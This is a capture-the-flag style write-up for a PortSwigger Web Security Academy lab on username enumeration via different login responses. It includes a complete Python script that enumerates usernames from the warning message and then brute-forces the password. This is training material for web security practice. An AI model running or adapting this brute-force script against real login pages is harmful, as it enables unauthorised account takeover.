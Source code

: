 ```yaml
---
title: Username enumeration via different responses
tags:
  - web-app
  - authentication
---
```


<a href="https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses/">
1. Username enumeration via different responses</a>

We're asked to brute-force attack this website. The login page provides
different responses based on whether or not a valid or invalid username or
password is provided. We first use a wordlist of usernames against the /login
page, checking for the string "Invalid password" in the HTML response. Once
we've discovered the username, we brute-force the username with a wordlist of
passwords until the "Invalid password" string is no longer present in the HTML
response.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, wordlist: str, passwordlist: str) -> None:
        self.url = url
        self.wordlist = wordlist
        self.passwordlist = passwordlist

    def login(self, username: str, password: str) -> requests.Response:
        s = requests.Session()
        login_url = f"{self.url}/login"
        r = s.post(
            login_url,
            data={
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        r = self.login("invalid", "invalid")
        invalid_string = re.findall(r"is-warning>([\w]+\ [\w]+)", r.text)[0]

        with open(self.wordlist, "r") as f:
            usernames = f.readlines()

        with open(self.passwordlist, "r") as f:
            passwords = f.readlines()

        i = 0
        good_string = invalid_string
        while good_string == invalid_string and i < len(usernames):
            print(f"Trying username: {usernames[i].strip()}")
            r = self.login(usernames[i].strip(), passwords[0])
            good_string = re.findall(r"is-warning>([\w]+\ [\w]+)", r.text)[0]
            i += 1

        j = 0
        username = usernames[i - 1].strip()
        print(f"Username found: {username}")
        while j < len(passwords):
            print(f"Trying password: {passwords[j].strip()}")
            r = self.login(username, passwords[j].strip())
            canary = re.findall(r"is-warning>([\w]+\ [\w]+)", r.text)
            if not canary:
                break
            j += 1

        print(f"Credentials found: {username}:{passwords[j].strip()}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--wordlist", dest="wordlist")
    parser.add_argument("--p", "--passwordlist", dest="passwordlist")
    args = parser.parse_args()
    s = Solution(args.url, args.wordlist, args.passwordlist)
    s.solve()


if __name__ == "__main__":
    main()
```
